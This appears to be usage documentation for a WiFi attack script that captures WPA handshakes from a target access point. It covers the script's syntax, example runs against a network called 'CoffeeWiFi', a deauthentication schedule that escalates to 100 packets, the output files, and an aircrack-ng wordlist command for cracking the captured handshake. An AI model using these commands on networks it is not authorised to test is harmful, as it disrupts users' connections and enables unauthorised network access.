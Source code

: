 **Script:** `/root/02-handshake-capture.sh`

**Full Syntax:**
```bash
./02-handshake-capture.sh <BSSID> <CHANNEL> <ESSID> [INTERFACE] [OUTPUT_DIR] [MAX_ATTEMPTS]
```

**Required Parameters:**
- `BSSID` - Target AP MAC address (e.g., AA:BB:CC:DD:EE:FF)
- `CHANNEL` - WiFi channel (1-14)
- `ESSID` - Network name (quoted if contains spaces)

**Optional Parameters:**
- `INTERFACE` - WiFi interface (default: wlan0)
- `OUTPUT_DIR` - Output directory (default: /root/captures)
- `MAX_ATTEMPTS` - Maximum capture attempts (default: 5)

**Examples:**

```bash
# Basic handshake capture
./02-handshake-capture.sh AA:BB:CC:DD:EE:FF 6 'CoffeeWiFi'

# With custom interface
./02-handshake-capture.sh AA:BB:CC:DD:EE:FF 6 'CoffeeWiFi' wlan1

# Custom output location and 3 attempts only
./02-handshake-capture.sh AA:BB:CC:DD:EE:FF 6 'CoffeeWiFi' wlan0 /mnt/sdcard/caps 3

# Maximum attempts for difficult targets
./02-handshake-capture.sh AA:BB:CC:DD:EE:FF 6 'CoffeeWiFi' wlan0 /root/captures 10
```

**Deauth Escalation Strategy:**
```
Attempt 1: 5 deauth packets
Attempt 2: 10 deauth packets
Attempt 3: 20 deauth packets
Attempt 4: 50 deauth packets
Attempt 5+: 100 deauth packets
```

**Output Files:**
```
/root/captures/
├── handshake_TIMESTAMP-01.cap   # Captured packets (use with aircrack-ng)
├── handshake_TIMESTAMP-01.csv   # Network/client details
├── capture_TIMESTAMP.log        # Detailed capture log
└── report_TIMESTAMP.txt         # Summary with next steps
```

**Success Output:**
```
═══════════════════════════════════════════════════════════════
  ✓✓✓ HANDSHAKE CAPTURED SUCCESSFULLY! ✓✓✓
═══════════════════════════════════════════════════════════════

Next Steps:
  Crack the handshake with:
    aircrack-ng handshake_TIMESTAMP-01.cap -w /path/to/wordlist.txt
```
